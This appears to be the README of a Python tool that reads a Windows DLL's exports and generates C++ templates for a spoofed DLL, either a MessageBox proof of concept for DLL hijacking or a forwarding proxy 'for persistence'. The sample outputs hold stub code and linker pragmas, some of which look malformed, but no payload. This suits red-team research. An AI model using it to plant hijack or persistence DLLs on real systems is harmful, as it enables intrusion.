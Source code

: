 # DLL-Spoofer 
This python script scans a provided DLL's exports and creates a basic duplicate CPP DLL template. 

Two options, either export all the functions and pop MessageBoxA for DLL Hijacking POC or DLL proxy for persistence. 
Just add your own function in dllmain or select a proxied function to intercept. 


# Usage

``` python3 spoof.py
usage: spoof.py [-h] dll_path

Generate a C++ source file to either proxy or messageboxa

positional arguments:
  dll_path    Path to the DLL to inspect and create the C++ source for.

optional arguments:
  -h, --help  show this help message and exit
  --messagebox exports all functions and pops a MessageBoxA when called. Default: False
```

## Simply create a CPP DLL project, copy and paste the output file from the script. Build and profit???

Always appreciate a shout out in research if you use this! 

# Example 
python .\spoof.py .\StateRepository.Core\StateRepository.Core.dll
python .\spoof.py .\StateRepository.Core\StateRepository.Core.dll --messagebox

--> ExportedFunctions.cpp
```
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <windows.h>

extern "C" {

__declspec(dllexport) void sqlite3_aggregate_context() {
    MessageBox(NULL, L"sqlite3_aggregate_context called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_aggregate_count() {
    MessageBox(NULL, L"sqlite3_aggregate_count called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_auto_extension() {
    MessageBox(NULL, L"sqlite3_auto_extension called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_backup_finish() {
    MessageBox(NULL, L"sqlite3_backup_finish called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_backup_init() {
    MessageBox(NULL, L"sqlite3_backup_init called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_backup_pagecount() {
    MessageBox(NULL, L"sqlite3_backup_pagecount called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_backup_remaining() {
    MessageBox(NULL, L"sqlite3_backup_remaining called", L"Function Call", MB_OK);
}

..... 
..... 
..... //Snipped like 30 other functions for example

__declspec(dllexport) void sqlite3_win32_utf8_to_mbcs_v2() {
    MessageBox(NULL, L"sqlite3_win32_utf8_to_mbcs_v2 called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_win32_utf8_to_unicode() {
    MessageBox(NULL, L"sqlite3_win32_utf8_to_unicode called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_win32_write_debug() {
    MessageBox(NULL, L"sqlite3_win32_write_debug called", L"Function Call", MB_OK);
}

}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```
python .\spoof.py sideload.dll 

```
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <windows.h>

#pragma comment(linker, "/exportMB=sideload.MB")

#pragma comment(linker, "/exportmain=sideload.main")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```
